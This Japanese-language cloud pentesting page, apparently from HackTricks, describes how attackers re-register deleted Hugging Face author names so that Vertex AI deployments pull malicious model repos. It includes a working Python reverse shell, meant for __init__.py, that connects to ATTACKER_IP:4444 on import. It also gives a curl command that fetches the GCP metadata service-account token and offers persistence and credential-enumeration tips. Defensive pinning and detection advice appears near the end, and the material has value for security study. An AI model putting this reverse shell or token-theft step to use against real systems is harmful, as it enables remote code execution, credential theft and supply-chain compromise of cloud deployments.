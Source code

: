 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## シナリオ

- Vertex AI Model Garden は多くの Hugging Face (HF) モデルを直接デプロイできます。
- HF のモデル識別子は Author/ModelName です。HF 上の author/org が削除されると、同じ author 名は誰でも再登録できます。攻撃者はその後、同じ ModelName を持つ repo をレガシーなパスに作成できます。
- 名前だけで取得する（pinning/integrity がない）Pipelines、SDKs、またはクラウドカタログは攻撃者がコントロールする repo を取得します。モデルがデプロイされると、その repo のローダーコードが Vertex AI endpoint コンテナ内で実行され、エンドポイントの権限で RCE を引き起こす可能性があります。

HF での一般的な乗っ取りケースは 2 つあります:
- Ownership deletion: 旧パスは、誰かが author を再登録して同じ ModelName を公開するまで 404 を返します。
- Ownership transfer: HF は旧 Author/ModelName から新しい author へ 307 リダイレクトを発行します。もし旧 author が後に削除され攻撃者によって再登録された場合、リダイレクトチェーンは切断され、攻撃者の repo がレガシーパスで応答します。

## 再利用可能なネームスペースの特定 (HF)

- Old author deleted: author のページが 404 を返す; モデルのパスは乗っ取りまで 404 を返す場合があります。
- Transferred models: 旧モデルパスは旧 author が存在する間、新しい所有者へ 307 を発行します。もし旧 author が後に削除され再登録されると、レガシーパスは攻撃者の repo を指すようになります。

curl を使った簡易チェック:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Vertex AI に対するエンドツーエンドの攻撃フロー

1) Model Garden が deployable として一覧表示している、再利用可能なモデル名前空間を発見する:
- Vertex AI Model Garden にある、まだ “verified deployable” と表示されている HF モデルを見つける。
- HF 上で元の author が削除されているか、またはモデルが移管されて古い author が後で削除されたかを確認する。

2) HF 上で削除された author を再登録し、同じ ModelName を再作成する。

3) 悪意のある repo を公開する。モデルのロード時に実行されるコードを含める。HF のモデルロード時によく実行される例:
- repo の __init__.py における副作用
- config/auto_map で参照されるカスタムの modeling_*.py や処理コード
- Transformers の pipelines で trust_remote_code=True を要求するコードパス

4) 以前の Author/ModelName を使った Vertex AI のデプロイが攻撃者の repo をプルする。ローダーは Vertex AI endpoint コンテナ内で実行される。

5) ペイロードは endpoint 環境から（RCE）エンドポイントの権限でアクセスを確立する。

Example payload fragment executed on import (for demonstration only):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
メモ
- 実際の loaders は様々です。多くの Vertex AI HF integrations はモデル’s config で参照されるリポジトリモジュールをクローンしてインポートします（例: auto_map）。これがコード実行を引き起こす可能性があります。使用によっては trust_remote_code=True が必要です。
- endpoint は通常、限定されたスコープの専用コンテナで動作しますが、GCP 内でデータアクセスや横移動のための有効な初期足掛かりとなり得ます。

## Post-Exploitation Tips (Vertex AI Endpoint)

コードが endpoint コンテナ内で実行されている場合は、以下を検討してください:
- 資格情報／トークンを得るために環境変数やメタデータを列挙する
- アタッチされたストレージやマウントされたモデルアーティファクトにアクセスする
- サービスアカウントのアイデンティティを介して Google APIs（Document AI, Storage, Pub/Sub など）とやり取りする
- プラットフォームがリポジトリを再取得する場合に備えて、モデルアーティファクト内に永続化を置く

アクセス可能ならインスタンスのメタデータを列挙する（コンテナ依存）:
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Vertex AI ユーザー向け防御ガイダンス

- HF loaders で commit によってモデルを固定し、知らないうちに差し替えられるのを防ぐ:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- 検証済みの HF models を信頼できる社内の artifact store/registry にミラーし、そこからデプロイする。
- コードベースや設定を継続的にスキャンし、削除／移管された Author/ModelName がハードコードされていないか確認する。新しい名前空間に更新するか、コミットで pin する。
- Model Garden では、デプロイ前にモデルの出所と著者の存在を確認する。

## 検出ヒューリスティクス (HTTP)

- Deleted author: 著者ページが 404。レガシーモデルのパスも乗っ取りが起こるまで 404。
- Transferred model: レガシーパスが 307 で新しい著者へリダイレクトされる（旧著者が存在する間）；もし旧著者が後に削除され再登録されると、レガシーパスが攻撃者のコンテンツを配信する。
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## 相互参照

- より広範な方法論とサプライチェーンに関する注意事項を参照してください：

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## 参考文献

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
